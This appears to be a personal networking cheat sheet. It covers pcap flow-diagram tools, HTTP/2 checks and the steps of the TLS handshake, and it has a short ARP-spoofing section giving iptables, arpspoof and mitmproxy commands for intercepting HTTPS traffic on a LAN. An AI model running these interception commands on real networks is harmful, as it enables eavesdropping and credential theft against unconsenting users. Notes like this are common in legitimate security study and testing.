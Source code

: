 - Wireshark > Statistics > Flow Graph
- https://github.com/fran-ovia/pcap2puml-py
- https://github.com/dgudtsov/pcap2uml
- https://sourceforge.net/projects/callflow/

# ARP Spoofing, ARP Poisoning

- ~/code/snippets/arp_spoof.py

```bash
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080
arpspoof -i eth0 -t 192.168.10.9 192.168.10.10
# reverse proxy mode
mitmproxy -R https://192.168.10.10
```

# HTTP

SYN and ACK bits sent and received in both directions

- https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Technical_overview
- [RFC 7230 \- Hypertext Transfer Protocol \(HTTP/1\.1\): Message Syntax and Routing](https://tools.ietf.org/html/rfc7230)

### HTTP/2

```bash
# Validate server push requests
nghttp -v -ans https://foo/index.html
# || https://github.com/fstab/h2c
# || chrome://net-export
```

# TLS

- [GitHub \- nabla\-c0d3/sslyze: Fast and powerful SSL/TLS scanning library\.](https://github.com/nabla-c0d3/sslyze)

- Obsoletes: SSL

- Flow
    1. Client Hello: Client Random [+ Session ID] + Cipher Suites Supported
    2. Server Hello: Server Random [+ Session ID] + Cipher Suite Selected + Certificate
        - Avoids replay attacks: Master Key depends on new generated Server Random
            - https://security.stackexchange.com/questions/89383/why-does-the-ssl-tls-handshake-have-a-client-and-server-random
            - https://security.stackexchange.com/questions/98261/purpose-of-client-and-server-random-numbers-in-ssl-handshake
            - https://security.stackexchange.com/questions/218491/why-using-the-premaster-secret-directly-would-be-vulnerable-to-replay-attack
    3. Client Response: Encrypted Pre-Master Secret + Change Cipher Spec
    4. Server Response: Change Cipher Spec
